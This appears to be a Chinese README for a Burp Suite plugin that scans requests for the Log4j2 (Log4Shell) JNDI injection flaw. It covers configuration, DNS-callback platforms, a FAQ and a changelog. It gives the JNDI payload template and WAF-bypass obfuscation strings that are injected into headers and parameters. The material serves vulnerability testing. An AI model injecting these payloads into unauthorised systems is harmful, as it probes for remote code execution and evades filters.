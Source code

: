 # 本工具仅为企业测试漏洞使用，严禁他人使用本工具攻击
本插件基于 https://github.com/f0ng/log4j2burpscanner/ 进行改造，在此感谢f0ng师傅在本项目上做出的贡献。

## 如何食用？
### dns_mothed
本插件支持3个dns平台：
	https://dns.xn--9tr.com/(默认使用)
	http://ceye.io/
	http://www.dnslog.cn/(由于延迟较高不建议使用)
本插件支持自定义dns平台

### log4j2burpscanner.properties
插件第一次运行时，会在burp目录下创建log4j2burpscanner.properties配置文件。其中的各项含义如下：
log_method=0		默认使用第0个dns平台

passivepattern=false		配合burp自带的被动扫描功能，默认关闭

ceyetoken=xxxxxx		ceye.io的用户token

ceyednslog=xxxx.ceye.io	ceye.io的用户dns地址

privatedns=xxxxxx		用户自定义dns地址

isuseUserAgentTokenXff=true	是否测试请求中的UA头/token头

isuseXfflists=false		是否测试Xff(X-forwarded-for)等请求头

isuseAllCookie=true		是否测试cookie

isuseRefererOrigin=false	是否测试Referer

isuseContenttype=false	是否测试Content-type

isuseAccept=false		是否测试useAccept

custom_dnslog_protocol=jndi:ldap:	ayload中"jndi:ladp:"的位置字段，可以自定义"jndi:"的bypass方式,例如输入${lower:j}ndi${::-:}lda${lower:p}:

dnslog_protocol_index=1		payload中"jndi:ladp:"的位置字段的一些默认提供项，设置为0就可使用上一项自定义的custom_dnslog_protocol，设置8为最强bypass

whitelists=*.gov.cn *.edu.cn	不进行测试的host名单

customlists=X-Client-IP X-Requested-With X-Api-Version	需要额外添加并测试的请求头，用空格分隔

config中有save configuration，load configuration，test dnslog三个按钮，分别用于保存当前设定的properties，加载properties文件和测试当前选择的dns平台是否可用。


### output
插件加载完成后，应当出现如下字样

[+]               load successful!      

[+]        log4j2burpscanner v0.22.funny  

[+] https://github.com/f0ng/log4j2burpscanner

[+]                 recode by funnyndk      

[+]using log.xn--9tr.com now!

[+]dns address : 7f124f45.dns.1433.eu.org

[+]dns token : r3ewux4bob98

[+]You also can request to    https://log.xn--9tr.com/r3ewux4bob98    to see dnslog

其中dns address为payload中请求的域名，https://log.xn--9tr.com/r3ewux4bob98可以人为查看解析记录

### menu
对请求包右键的菜单栏中，新增了"Send to log4j2 Scanner"选项，点击后将对包进行注入改造并且测试。完成dns询问后，会在log4j2 RCE栏中展示恶意请求和结果等等

### payload

真正的payload格式如下

"${"+jndiparam+dnsldaprmi+"//"+random+"."+chosen_dnslog+"}"

pyload将根据设定和请求类型，注入所有的请求头或GET参数或POST参数中(存在特殊情况无法识别)


##FAQ
Q：为什么安装插件失败，提示java.lang.ClassFoundException: burp.BurpExtender

A：请使用jdk1.8，本插件开发环境为jdk1.8，测试环境为Burp Suite Pro 1.7.31。如果已使用jdk1.8，请更新jdk小版本。开发机版本为jdk1.8.0_291，请至少与之一致，

Q：为什么点了"Send to log4j2 Scanner"选项，log4j2 RCE栏中没有出结果

A：由于网络延迟，扫描可能较慢。或是请求包出现问题，没有相应返回，请检查是否被防火墙等设备封禁。

Q：为什么加载插件显示"load ERROR"

A：一般由于选择的dns平台无法正常访问，也有可能配置文件出现异常。

## dev or update note

0.19.funny dev note

20220617 dev list

add a "dnslog.cn" dnslog platfrom chocie            done!

make it to a slowly passively auto-detection

more methods to bypass                              update continually...

more position in request to inject log4j2 payload   done!

20220623 dev list

fix the code bug                                    done!

test all program	                            done!

0.20.funny update note

20220629 update list 

fix the bug - cant send request without response to log4j2 scanner

update the feature - log4j2 scanner will show the records even though of which the request doesnt get a response

0.21.funny update note

20220704 update list 

update the feature - change how the plugin modifies custom_dnslog_protocol

0.22.funny update note

20220801 update list

optimize the code - use "Abstract Factory" to dnslog platforms list, make it more easy to maintain current platforms or increase a new one

update the feature - add a random bypass mode like j => ${"random_str":"random_str":"random_str"... - j}

update the feature - support privatedns mode
